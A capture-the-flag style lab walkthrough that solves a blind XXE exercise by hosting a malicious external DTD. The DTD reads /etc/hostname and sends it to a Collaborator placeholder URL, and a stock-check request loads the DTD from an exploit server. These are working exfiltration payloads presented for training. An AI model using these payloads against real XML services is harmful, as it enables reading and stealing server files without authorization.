 # Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

> Lab Objective: exfiltrate the contents of the /etc/hostname file.

- Check Stock for any product then inspect the request.

- You'll notice that the POST body is sent in an XML Format.
  ![1st screenshot](./attachments/1.png)

- Use this payload to check which data value will be reflected in the response.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE attacker [
    <!ENTITY xxe "HELLO">
]>
<stockCheck>
    <productId>
        1 &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

- But you'll notice that XML External Entities are blocked.
  ![2nd screenshot](./attachments/2.png)

- But when trying to trigger Out-of-Band Interaction with XML Parameter Entities, the interaction succeeded.
  ![3rd screenshot](./attachments/3.png)
  ![4th screenshot](./attachments/4.png)

- Therefore, host this payload on the exploit server:

```xml
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'BURP-COLLABORATOR-URL?x=%file;'>">
    %eval;
    %exfiltrate;
```

- Send this payload through the POST body of the Stock Check Request:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE attacker [
    <!ENTITY % hack SYSTEM "https://exploit-0a95002c0455479c9fecfcc901b8007d.exploit-server.net/exploit">
    %hack;
]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

- Then Send that request, and Poll Now on the Collaborator Tab, and view the HTTP Request, you'll find `/etc/hostname` content.
  ![5th screenshot](./attachments/5.png)

- Submit it, then the lab is solved successfully.
  ![6th screenshot](./attachments/6.png)

---
